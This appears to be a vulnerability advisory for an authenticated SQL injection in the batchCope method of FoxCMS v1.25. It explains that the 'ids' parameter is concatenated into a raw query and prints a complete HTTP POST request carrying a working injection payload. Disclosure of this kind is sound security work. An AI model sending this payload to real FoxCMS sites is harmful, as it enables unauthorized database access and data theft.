 # SQL Injection Vulnerability in FoxCMS

**Version: FoxCMS v1.25**

**Google Dork: N/A**

**Date: 05/13/2025**

**Tested on: Windows 11, Apache 2.4, MySQL 8.0, PHP 7.3**

**Software Link: https://gitee.com/qianfox/foxcms**

**Description:** A SQL injection vulnerability exists in the `batchCope` method of the controller located at `app/admin/controller/Article.php`. Due to improper handling of the `ids` parameter, user input is directly embedded into a raw SQL query without validation or parameterization. This allows an authenticated attacker to inject arbitrary SQL statements, potentially leading to unauthorized access, extraction of sensitive data, or full compromise of the underlying database.

**code analysis**

The `batchCope` method retrieves the `ids` parameter from user input and directly concatenates it into a raw SQL query without any validation or parameter binding. This allows an attacker to inject arbitrary SQL code through the `ids` parameter, potentially leading to unauthorized access, data leakage, or modification of database contents.

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161945913.png)

**Payload used:**

```
POST /index.php/admin1738/Article/batchCope.html HTTP/1.1
Host: www.foxcms.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: http://www.foxcms.com
Connection: keep-alive
Referer: http://www.foxcms.com/index.php/admin1738/Article/index.html?columnId=28
Cookie: PHPSESSID=94901524f6ef7383bc9d9e2730738a3f
Priority: u=0

ids=1)+or+(select database())='foxcms'--+

```

Example：

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161636029.png)

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161700879.png)

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161802423.png)
